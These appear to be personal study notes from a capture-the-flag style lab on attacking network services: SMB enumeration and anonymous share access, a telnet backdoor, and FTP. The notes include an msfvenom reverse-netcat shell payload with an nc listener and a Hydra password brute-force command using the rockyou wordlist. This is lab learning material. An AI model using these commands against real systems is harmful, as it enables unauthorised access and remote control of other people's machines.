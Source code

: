 ```yaml
---
tags:
  - programming/hacking/networking
  - programming/linux
---
```

# Network services

In this section we will be exploiting network service

SMB - client-server communication protocol for share access to network resource. "Sambda" for Unix

## SMB Enumeration

Find what we want effectively - don't waste time

### Enum3Linux

Enumeration for linux that works on both linux and windows systems. 

Quick and dirty command options
```
    -U  get userlist
    -M  get machine list
    -N  get namelist dump (different from -U and-M)
    -S  get sharelist
    -P  get password policy information
    -G  get group and member list
    -a  all of the above (full basic enumeration)
```

### SMB client

Use SMB client to try and access the data

```
    smbclient //[IP]/[SHARE]
```

SMB share called "secret" as user "suit" on machine 10.10.10.2 on default port - Like this: `smbclient //10.10.10.2/secret -U suit`

Lets get anonymous access to the profiles share! `smbclient //10.10.10.2/profiles -U anonymous` and enter blank password

Find the ssh key, download it and use it to log in as the user mentioned in the note - guess and check the name (it's
the last name)

### Telnet

Like sambda, but different. Sends all message in clear text and has no security. Almost entirely replaced by ssh, but if
you find it, you are set to bust in. 

Syntax: `telnet [ip] [port]`. Then use specific telnet commands to communicate with server

Telenet enumeration finds nothing below 1000, however we an expand the port range to all possible `nmap -A -p- $ipaddr
| tee nmap_telnet.log` Of course, using the tee command to save the output or later

NOTE - "skidy's backdoor" is particularly interesting

Now - lets just see if we can log on to the telnet service using `telnet $IP $PORT

We can connect to that, but the output is not being returned. We can check the output is being returned by listening on
our local machine `sudo tcpdump ip proto \\icmp -i tun0` and then pinging our local machine useing `ping [local tun0 ip]
-c 1`

That should return some values, which means the target machine is running our commands, but not telling us. We can then
create a reverse shell using msfvenom
`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
This will generate a payload that we can then copy and paste into the telnet session. Be sure to run `nc -lvp $LISTENPORT` on the local machine to actually open the reverse shell and use it

Find the flag, and we're done! 

### FTP

File Transfer Protocol transfers files. Has a command channel and a data channel for operation. Validates the
username/password and then the user can execute commands on the FTP server

Two modes - Active and Passive. Active mean the server has to actively connect to the client, where passive allow the
server to just listen for incoming connections

FTP typically operates on port 21

Fun fact - some versions of FTP have an exploit where they can run `cwd` before authentication. See [this link]: https://www.exploit-db.com/exploits/20745

This particular scan will require a scan on all ports. `-A

Can connect to the FTP site by using `ftp $IPADD`

We can see a note that might give us a username. Let's try Hydra to crack the password using the command `hydra -t 4 -l
mike -P /usr/share/wordlists/rockyou.txt $IPADDR ftp`

```
    hydra                   Runs the hydra tool
    -t 4                    Number of parallel connections per target
    -l [user]               Points to the user who's account you're trying to compromise
    -P [path to dictionary] Points to the file containing the list of possible passwords
    -vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt
    [machine IP]            The IP address of the target machine
    ftp / protocol          Sets the protocol
```

Get password and log in with the username/password found. Find flag and we're done!
